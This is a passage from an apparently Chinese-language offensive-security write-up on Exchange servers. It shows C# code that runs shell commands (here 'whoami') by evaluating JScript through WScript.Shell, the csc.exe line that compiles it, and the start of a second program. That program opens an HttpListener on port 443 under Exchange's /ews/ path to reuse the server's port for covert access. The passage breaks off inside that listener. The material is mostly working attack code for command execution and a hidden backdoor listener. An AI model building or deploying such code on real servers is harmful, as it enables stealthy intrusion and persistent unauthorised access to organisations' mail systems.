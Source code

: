 ```
using System;
namespace test
{
    public class Program
    {                   
        public static void Main(string[] args)
        {
            string code = "new ActiveXObject(\"WScript.Shell\").exec(\"cmd.exe /c whoami \").stdout.readall()";
            Microsoft.JScript.Vsa.VsaEngine vsaEngine = Microsoft.JScript.Vsa.VsaEngine.CreateEngine();
            code = System.Text.Encoding.UTF8.GetString(System.Text.Encoding.UTF8.GetBytes(code));
            object obj = Microsoft.JScript.Eval.JScriptEvaluate(code, vsaEngine);
            Console.WriteLine(obj);
        }
    }
}
```

编译：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:Microsoft.JScript.dll test1.cs
```


### 3.Exchange的端口复用 + 通过C Sharp调用JScript

示例代码test2.cs的内容如下：

```
using System;
using System.Web;
using System.Diagnostics;
using System.Threading;
using System.Runtime.InteropServices;
using System.Text;
using System.IO;
using System.Security.Cryptography;
using System.Net;
using System.Reflection;
using System.Collections;
using System.Collections.Generic;
using System.DirectoryServices;

namespace test
{
    public class test
    {
        static void Main(string[] args)
        {
          new Thread(Listen).Start();
        }
        static void Listen()
        {
        try
        {
            if (!HttpListener.IsSupported)
            {
                return;
            }
            HttpListener listener = new HttpListener();
            listener.Prefixes.Add("https://*:443/ews/test/");
            listener.Start();
            while (true)
            {
```